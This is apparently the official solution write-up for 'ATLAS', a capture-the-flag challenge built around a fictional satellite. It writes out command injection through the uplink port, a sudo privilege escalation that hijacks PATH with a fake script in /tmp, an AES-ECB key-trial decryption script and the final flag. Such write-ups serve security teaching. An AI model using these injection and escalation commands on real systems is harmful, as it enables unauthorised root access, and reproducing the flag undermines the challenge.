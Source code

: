 # ATLAS

## Official solution

Atlas is a satellite, so depending on its position with respect to the groundstation, the signal varies and message reception times increase/decrease.

We have the downlink on port 5001, where we receive messages. The uplink is on 5000, from which we can send messages to the satellite.


### From the UPLINK port

We see that the satellite accepts some commands, such as 'id'. It is possible to perform command injection in different ways to obtain a larger set of commands.

Just an example:
`id; ls -la`

after some quick checks on the operating system, we discover via `sudo -l` that we can execute some commands as sudoers (e.g. network.py telemetry, network.py broadcast). We also notice that no `secure_path` is set.

`secure_path` in the sudoers file defines the explicit paths where executables can be executed with sudo.

```
com ALL=(ALL) NOPASSWD: /usr/bin/python3 /opt/network.py telemetry
com ALL=(ALL) NOPASSWD: /usr/bin/python3 /opt/network.py broadcast
```

Great, telemetry and broadcast are binaries calledy by network.py. So why not use our version of 'telemetry'?

```shell
id;echo '#!/bin/bash' >/tmp/telemetry;
id; ls -la /root
id;chmod +x /tmp/telemetry
id;export PATH=/tmp:$PATH;sudo /usr/bin/python3 /opt/network.py telemetry
```

Ok, it works and we can run commands as `root`. Inside the `/root` directory we have the `core` binary. If we try to run it it asks us for an `identifier`. Will it be the govGPT agent that we need to deploy?

```shell
id;echo '/root/core E071119BFC83EF5C84AF01DEC888940CB191B8C006A10F130E7D0D5CF34D6C8A' >>/tmp/telemetry
id;chmod +x /tmp/telemetry
id;export PATH=/tmp:$PATH;sudo /usr/bin/python3 /opt/network.py telemetry
```
The output:

```
AES ECB 256 recognized.
Identifier Accepted. Welcome Dave.
Processing the AI instructions...
Habitable island identified (2% reliability): ckn5qI7NsMNRMCHB2ULLoobpoWdD087b
Habitable island identified (2% reliability): 33aQRdcUF988hVQ83js43jqe9H84vLc8
Habitable island identified (2% reliability): EUnpg4h5EQ9r025hM0754eT7WSh5KK9t
Habitable island identified (2% reliability): fzaAHTA6DzaEjj6KNNG6L5IGBDCg3vmI
Habitable island identified (2% reliability): 66nzwo174UJD2c7ZacBzC67VsalDo21l
Habitable island identified (2% reliability): HJa0X7285d22ZJc2bDicT78w3lG8DRwA
Habitable island identified (2% reliability): ionXm8r9c4bduClf8s1TwIdlAw396QHd
Habitable island identified (2% reliability): 99awNNK0bhwQ57uI95WWnDs2rhwghbgS
Habitable island identified (2% reliability): KYnHciP1O6F5wqR5CWR10kVN605DW6Rv
Habitable island identified (2% reliability): ldagD162NZ6q7jAoDly21f2CZ1aM9XqK
Habitable island identified (2% reliability): 22n5sYb30ixpMQJRq85h2a3dq2V3aWB7
Habitable island identified (2% reliability): NNaETtgo1DGChJ48rPMkB3q6938gPh8C
Habitable island identified (2% reliability): osndi4Zv2mB9O25x4eHBS4f70IZD20L9
Habitable island identified (2% reliability): 55aOJ50cl10cjx6A51oEv5IUDT0MtD0U
Habitable island identified (2% reliability): QCnnySljkqtP2qv1SI97mEXJuEp7ICV1
Habitable island identified (2% reliability): rha0ZnqqX3C2ZXegTxC8dZ8k3P2g5n2M
Habitable island identified (2% reliability): 88nLo8JxWI334QnJgYjp8gd1Cmtpm4r3
Habitable island identified (2% reliability): TRakPD4e754oB7K4hnes9bs2txOMB54E
Habitable island identified (2% reliability): uwnVey5l8MpBw8Tp063JAwVB6i518Ib5
Habitable island identified (2% reliability): 11auF1as9vY67xCS1RSMR1KQBtSgTt6i
Habitable island identified (2% reliability): WGn5u2TNuQ7byEL7Igz3I23rG27p08l7
Habitable island identified (2% reliability): xlaS9XYUtzqO9X4yv9u4l346x3iMx9Wa
Habitable island identified (2% reliability): 44nrks9BG0lNO25BwK75cAf70495MOv9
Habitable island identified (2% reliability): ZVaC15kIFdU0j3605zIa5VuIF5m63zGs
Habitable island identified (2% reliability): aa7baIpP421nQex162pd6QXXwUHpq2f1
Habitable island identified (2% reliability): 77803dIW5VmAlLgwXDkU7x8y3F2MF3Qk
Habitable island identified (2% reliability): CK9Zqm3De4V34EpZYs1XQs91EQL96U3Z
Habitable island identified (2% reliability): dp02594KdZQaB7M4lTY0H9s2vB40jfAc
Habitable island identified (2% reliability): 001JgCzRci5z68Vfmif1k0hPaybpYe5R
Habitable island identified (2% reliability): FZ2i7xS2PDiMDlEI17aib1KE7j6M97Ku
Habitable island identified (2% reliability): ge35w2X3OmR7yS372M5lsWZfIufVcA7J
Habitable island identified (2% reliability): 3x4G9N84198m9L4oNbOC3R46zfA4Rlgm
Habitable island identified (2% reliability): I457mij52q9ZO25RO0vF4Mf7049p2k9B
Habitable island identified (2% reliability): jH6Q1ro6n1e013q0bFq6PtuWH5Eyv1q0
Habitable island identified (2% reliability): 6m7pc6H7mIN1Qszxcu97GoXxy61VKG1T
Habitable island identified (2% reliability): L7803H28Z32ylZiA73EqX7Mm37u85ra2
Habitable island identified (2% reliability): mW9Nsc39YMfL4SF38Ylta891GG3poqLL
Habitable island identified (2% reliability): 9b0259y0Xva4n7OgDngKr902LRyyD5k4
Habitable island identified (2% reliability): O01XiSRl8QJl68XJEO3N0ShDcCTV8MVD
Habitable island identified (2% reliability): pL2w7B6s9z6YDz26rdUQ1Nwe7N62hLu6
Habitable island identified (2% reliability): 2q35yw7zw8bXys3ps8b32IZtKkX3WwFh
Habitable island identified (2% reliability): R34U93igvdK8FZ4S3H64Fp46bv8y1988
Habitable island identified (2% reliability): sA57oMBnI0Fxa2j94w7bWk570gnVaSPz
Habitable island identified (2% reliability): 5f6E1hGuHV0K13syT1KezfuKJrI63R00
Habitable island identified (2% reliability): U67de61bG2x1QgbBUArVq6jla6r7scZr
Habitable island identified (2% reliability): vP803Xsi5ZGk3zkQhp0Yh7Maf7MyH322
Habitable island identified (2% reliability): 8u9BIGxp6i3jSGH3i4198OB1483V6Yvj
Habitable island identified (2% reliability): X9025bQKfD4Wn7Qw9TA09J02N9QElX4Y
Habitable island identified (2% reliability): yE1LY05Remt568ZZIihjEE1ReS51Aifb
Habitable island identified (2% reliability): 1j2k7R6YR7Cwpn26JJ4mVlws7Dgy976Q
```
So, we know that we have 50 possible island with 2% of reliability. Another important note: `AES ECB 256`. We need a string and a secret?

Let's write a decoder.py

```python
import sys
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import binascii

def decrypt_aes_ecb(key, ciphertext):
    backend = default_backend()
    cipher = Cipher(algorithms.AES(key), modes.ECB(), backend=backend)
    decryptor = cipher.decryptor()
    plaintext = decryptor.update(ciphertext) + decryptor.finalize()
    return plaintext

def main():
    if len(sys.argv) != 3:
        print("Usage: python script.py <keys_file> <string_AES_ECB_256_HEX>")
        return

    keys_file = sys.argv[1]
    ciphertext_hex = sys.argv[2]

    try:
        with open(keys_file, 'r') as f:
            keys = f.readlines()
    except FileNotFoundError:
        print("Keys file not found")
        return

    try:
        ciphertext = bytes.fromhex(ciphertext_hex)
    except ValueError:
        print("No valid encrypted string")
        return

    for key in keys:
        key = key.strip()
        try:
            plaintext = decrypt_aes_ecb(key.encode('utf-8'), ciphertext)
            print(f"Key found: {key}")
            print("Plaintext:", plaintext.decode('utf-8'))
            return
        except Exception:
            pass

    print("No key found")

if __name__ == "__main__":
    main()
```

Let's try the decoder with the list of keys:

```shell
python3 decoder.py keys_file E071119BFC83EF5C84AF01DEC888940CB191B8C006A10F130E7D0D5CF34D6C8A
Key found: ckn5qI7NsMNRMCHB2ULLoobpoWdD087b
Key found: 33aQRdcUF988hVQ83js43jqe9H84vLc8
Key found: EUnpg4h5EQ9r025hM0754eT7WSh5KK9t
Key found: fzaAHTA6DzaEjj6KNNG6L5IGBDCg3vmI
Key found: 66nzwo174UJD2c7ZacBzC67VsalDo21l
Key found: HJa0X7285d22ZJc2bDicT78w3lG8DRwA
Key found: ionXm8r9c4bduClf8s1TwIdlAw396QHd
Key found: 99awNNK0bhwQ57uI95WWnDs2rhwghbgS
Key found: KYnHciP1O6F5wqR5CWR10kVN605DW6Rv
Key found: ldagD162NZ6q7jAoDly21f2CZ1aM9XqK
Key found: 22n5sYb30ixpMQJRq85h2a3dq2V3aWB7
Key found: NNaETtgo1DGChJ48rPMkB3q6938gPh8C
Key found: osndi4Zv2mB9O25x4eHBS4f70IZD20L9
Key found: 55aOJ50cl10cjx6A51oEv5IUDT0MtD0U
Plaintext: NTRLGC{TH3_54Y5H3LL5_15L4ND5}
```
